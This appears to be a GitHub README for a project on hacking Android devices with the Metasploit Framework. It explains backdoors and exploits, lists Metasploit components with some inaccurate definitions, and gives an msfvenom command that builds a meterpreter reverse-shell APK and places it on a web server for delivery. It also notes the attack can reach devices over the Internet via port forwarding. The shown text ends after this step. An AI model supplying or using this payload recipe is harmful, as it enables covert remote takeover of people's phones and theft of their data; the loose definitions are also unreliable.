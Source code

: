# Hacking-Android-devices-using-Metasploit-Framework
Android hacking made easy with Metasploit framework - my project on exploiting vulnerabilities for penetration testing and ethical hacking.

## Introduction

A backdoor is any route by which someone can circumvent normal security measures to access a system. Pieces of software often come with backdoors built into their code so that engineers and developers can bypass their own defenses to fix problems for their users. Backdoor attacks involve cybercriminals using these entry points to gain unauthorized access to data and systems. These incidents often go undetected, at least at first, because the hackers didn’t have to disrupt or brute force their way through any of the cybersecurity systems. Once they’ve got remote access to a network or device, a bad actor can install malware, engage in data theft, and spy on user activity.

Backdoor attacks can be extremely dangerous because they often involve hackers gaining an extremely high level of access and privileges within a system or network. If they can do this without being detected, they can then squat there for months, monitoring user activity.
An exploit is a code that takes advantage of a software vulnerability or security flaw. It is written either by security researchers as a proof-of-concept threat or by malicious actors for use in their operations. When used, exploits allow an intruder to remotely access a network and gain elevated privileges, or move deeper into the network. In some cases, an exploit can be used as part of a multi-component attack. Instead of using a malicious file, the exploit may instead drop another malware, which can include backdoor Trojans and spyware that can steal user information from the infected systems.

## Features of Metasploit Framework:

The Metasploit framework is a very powerful tool which can be used by cybercriminals as well as ethical hackers to probe systematic vulnerabilities on networks and servers. Because it’s an open-source framework, it can be easily customized and used with most operating systems.

Due to its wide range of applications and open-source availability, Metasploit is used by everyone from the evolving field of DevSecOps pros to hackers. It’s helpful to anyone who needs an easy to install, reliable tool that gets the job done regardless of which platform or language is used. The software is popular with hackers and widely available, which reinforces the need for security professionals to become familiar with the framework even if they don’t use it.

1.	Exploit: Tool used to take advantage of system weaknesses.
2.	Payloads: Sets of Malicious code.
3.	Auxiliary functions: Supplementary tools and commands
4.	Encoders: Used to convert code to information
5.	Listeners: Malicious software that hides in order to gain access
6.	Shellcode: Code that is programmed to activate once inside the target.
7.	Post-exploitation code: Helps test deeper penetration once inside
8.	Nops: An instruction to keep the payload from crashing. 

IMPLEMENTATION:


1.	Generating a Payload with msfvenom
Start Kali Linux so that we may generate an apk file as a malicious payload. We need to check our local IP that turns out to be ‘192.168.0.112’. You can also hack an Android device through Internet by using your Public/External IP in the LHOST and by port forwarding.
 

After getting your Local host IP use msfvenom tool that will generate a payload to penetrate the Android device. Type command:
# msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4444 R> /var/www/html/ehacking.apk
Where:
-p indicates a payload type
android/metepreter/reverse_tcp specifies a reverse meterpreter shell would come in from a target Android device
LHOST is your local IP
LPORT is set to be as a listening port
R> /var/www/html would give the output directly on apache server
apk is the final name of the final output

